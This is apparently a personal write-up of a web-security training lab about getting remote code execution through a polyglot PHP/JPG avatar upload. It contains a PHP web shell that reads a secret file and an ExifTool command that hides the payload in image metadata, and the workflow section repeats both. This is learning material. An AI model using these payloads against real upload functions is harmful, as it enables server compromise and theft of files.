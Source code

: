 
# **6. Remote code execution via polyglot web shell upload**
This lab contains a vulnerable image upload function. Although it checks the contents of the file to verify that it is a genuine image, it is still possible to upload and execute server-side code.

To solve the lab, upload a basic PHP web shell, then use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

**Analysis**:
1. On your system, create a file called `exploit.php` containing a script for fetching the contents of Carlos's secret. For example:
    `<?php echo file_get_contents('/home/carlos/secret'); ?>`
2. Log in and attempt to upload the script as your avatar. Observe that the server successfully blocks you from uploading files that aren't images, even if you try using some of the techniques you've learned in previous labs.
3. Create a polyglot PHP/JPG file that is fundamentally a normal image, but contains your PHP payload in its metadata. A simple way of doing this is to download and run ExifTool from the command line as follows:
    `exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" <YOUR-INPUT-IMAGE>.jpg -o polyglot.php`
    
    This adds your PHP payload to the image's `Comment` field, then saves the image with a `.php` extension.
4. In the browser, upload the polyglot image as your avatar, then go back to your account page.
5. In Burp's proxy history, find the `GET /files/avatars/polyglot.php` request. Use the message editor's search feature to find the `START` string somewhere within the binary image data in the response. Between this and the `END` string, you should see Carlos's secret, for example:
    `START 2B2tlPyJQfJDynyKME5D02Cw0ouydMpZ END`

**Workflow**:
1. Create a polyglot PHP/JPG file that is fundamentally a normal image, but contains your PHP payload in its metadata. A simple way of doing this is to download and run ExifTool from the command line as follows:
    `exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" <YOUR-INPUT-IMAGE>.jpg -o polyglot.php`
    This adds your PHP payload to the image's `Comment` field, then saves the image with a `.php` extension.
    
	![[Pasted image 20241024022945.png]]
	![[Pasted image 20241024022957.png]]
	![[Pasted image 20241024023023.png]]
2.  In Burp's proxy history, find the `GET /files/avatars/polyglot.php` request. Use the message editor's search feature to find the `START` string somewhere within the binary image data in the response. Between this and the `END` string, you should see Carlos's secret, for example: `START 2B2tlPyJQfJDynyKME5D02Cw0ouydMpZ END`
    ![[Pasted image 20241024023230.png]]
	![[Pasted image 20241024023521.png]]

